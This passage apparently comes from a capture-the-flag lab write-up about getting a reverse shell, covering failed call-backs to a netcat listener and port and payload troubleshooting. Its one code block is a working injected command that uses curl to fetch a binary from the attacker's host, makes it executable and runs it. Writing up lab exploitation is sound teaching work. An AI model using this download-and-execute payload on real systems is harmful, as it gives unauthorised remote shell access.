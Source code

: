 ### Netcat Listener

Screenshot of listener showing no call-back. The second stage failed.

![32e26745bf260397870ec7adef532d27.png](/assets/img/32e26745bf260397870ec7adef532d27.png)

### Reverse Shell Payload

Screenshot of the reverse shell payload.

![f1cc9abd796e9485fde16d8e93187996.png](/assets/img/f1cc9abd796e9485fde16d8e93187996.png)

# Modifying Payload

There are a number of reasons which could explain why the call-back failed. My first assumption was a firewall is blocking the call-back so I tested with various ports which may not be filtered. For example ports 5000, 80, 443 and 22. This had no impact and the call-back still failed.

Another explaination to why the call-back is failing would be the systems environment. For example if its a docker container it may not have bash installed. I tested different reverse shell payloads such as netcat and python and could not get it working.

Eventually I found a solution which involved writing the payload to disk, granting it executable permissions and executing the file. Below is a copy of the payload which worked.

```
("os").system ("curl 10.10.14.14/revshell -o /tmp/revshell && chmod +x /tmp/revshell && /tmp/revshell")
```

# Reverse Shell Obtained

Screenshot showing a call-back on the netcat listener. Reverse shell obtained as the app user.

![af7bdd6d0a0b2a66666acb6d4b71288f.png](/assets/img/af7bdd6d0a0b2a66666acb6d4b71288f.png)

